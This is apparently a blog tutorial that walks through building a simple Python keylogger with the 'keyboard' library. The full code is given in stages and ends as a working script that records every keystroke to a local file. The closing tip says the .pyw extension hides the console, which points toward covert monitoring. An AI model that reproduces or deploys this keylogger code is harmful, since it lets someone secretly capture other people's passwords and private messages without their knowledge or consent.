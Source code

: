```yaml
---
title: Designing A Simple Keylogger In Python
description: A tutorial which teaches you how to develop a simple keylogger in Python. Keyloggers are applications which are used to log keys when typed, naturally, keyloggers are not illegal unless used unlawful purposes
category: Programming
image: https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/hero.jpg
keywords:
  - keylogger
  - keylogging in python
  - python keylogger
date: 2021-04-24
---
```


> **Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a keyboard, [\[1\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) typically covertly, so that a person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program. A **keystroke recorder** or **keylogger** can be either software or [hardware](https://en.wikipedia.org/wiki/Computer_hardware).
>
> ~ [Wikipedia](https://en.wikipedia.org/wiki/Keystroke_logging) ~

The above context is extracted from Wikipedia and it explains what a keylogger is and what it does. Well, I hope most of you know what a keylogger is. Keyloggers are in two forms, software and hardware but the one we are going to be creating today is the software form of a keylogger. It is going to listen to all the key strokes and log them to a file. Cool right?

Before we start, you need to be conversant with the python programming language, it is what we are going to use in this tutorial. Let's get started.

## Installing the required modules

We are going to use the [keyboard](https://pypi.org/project/keyboard/) module for the keylogger. To install it, open your terminal type in `pip install keyboard`. If no error occured, you are good to go.

After that, open a new python file and let's start coding :dark_sunglasses:

## Creating the logger function

```python
import keyboard #The keyboard module

def logger(event):
	print(event.name)

keyboard.on_press(logger)
keyboard.wait()
```

I can say we are done, maybe above 50% done. Let me explain the code; on the first line, we imported the `keyboard` module. Then we defined our `logger(event)` function, it takes `event` as parameter and then it print's it's `.name` out. Then to the next line, we assigned the `logger` function as a parameter to the `keyboard.on_press` method. The `keyboard.on_press` method takes a function as parameter and passes an event to it. Then to the last line, the `keyboard.wait` makes the program run without closing, it acts like a while loop.

If we are to run our code in the terminal, it runs successfully without any errors. However, there is a problem, try typing this sentence after activating the logger `"am a hacker"`.
<img class="Sirv" data-src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter.gif" alt="" />

We really might not see the effect because, when the program is ran on the terminal, each character is printed on a new line but if the results were stored in a file, this is how it will look.

<img class="Sirv" data-src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter_txt.png" alt="" />

You might be confused, let me explain, when special keys are pressed, their names are returned and thus it makes it difficult for us to know if it was a character or special key. For example, if a user presses <kbd>space</kbd>, it will print out "space" or if <kbd>enter</kbd>, it will print out "enter", when this data is appended to a file, it just adds up to the letters and makes it difficult for us to know whether it was a special key or not.

## Solving the special key problem

Fortunately, there is a solution to this problem, the only thing we need to do is find a way to mark special keys so we will be able to differentiate between the two. To do so, we create another function called `filter(char)` which will filter the results before writing it to a file. It takes a character as parameter and surround the `char` with `[]` if it is a special key else, it will just go ahead and write it to a file.

```python
def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char
```

Well, this new code just popped into my head :laughing: , the first time I made the `filter` function, it was like this.

<img class="Sirv" data-src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/first_filter_function.png" alt="" />

This function above was 98 lines, this was because, I hard-coded every key inside my function, but now, I use a simple logic for the filter function. if we are to look at all the "special keys", we will find out that the length of their name is more than one whereas the length of normal characters or letters is one. So in our new `filter` function, we first checked if the `char == 'space'`, we then return `" "` if true. Then on the next line, we check if the length of the `char` is greater than one, if it is, then it means it is a special key so we wrap `[]`around it. else, we just return the `char`. Now our keylogger logs the characters much better.

```python
import keyboard #The keyboard module

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	print(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

Now, we are 95% done, our keylogger works as expected but it's not logging to any file. It's only writing to stdout. In order to make a real keylogger, we need to log the output to a file.

## Logging data to a file

The final step is to create a function which will write the data to a file.

```python
import keyboard #The keyboard module

def writer(data):
    with open("logs.txt","a") as file:
        file.write(data)

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	writer(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

We created a function called `writer` which takes `data` as parameter, it then writes the data to a file named "logs.txt", the file is going to be located in the directory as the python file.

Let's have a look at our `logger` function again, we called the `writer` function and we passed the `event.name` to it but we wrapped it with the `filter` function to filter it and that's our keylogger. just run your python file and you are good to go

**Tip:** You can hide the console from popping up if you save your python file with a .pyw extension
